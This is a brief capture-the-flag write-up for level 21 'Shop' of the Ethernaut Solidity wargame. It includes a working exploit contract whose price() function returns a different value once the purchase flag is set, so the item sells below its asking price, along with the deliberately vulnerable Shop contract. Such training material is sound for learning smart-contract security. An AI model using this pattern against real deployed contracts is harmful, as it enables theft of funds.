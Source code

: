 [21 - Shop](https://ethernaut.openzeppelin.com/level/0xCb1c7A4Dee224bac0B47d0bE7bb334bac235F842)

Solution: 
* implement a Buyer contract where price() is first bigger, than smaller
* Buyer's price function should be view so can't change state, needs to use isSold from Shop
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Buyer {
  bool private returnBig = false;

  Shop private constant shopContract = Shop(0x74F7605391762922f38Db00904A067260418e0BD);

  function price() external view returns (uint) {
    if (!shopContract.isSold()) {
      return 100;
    } else {
      return 99;
    }
  }

  function solve() external {
    shopContract.buy();
  }
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```
* Remix deploy Buyer and call solve();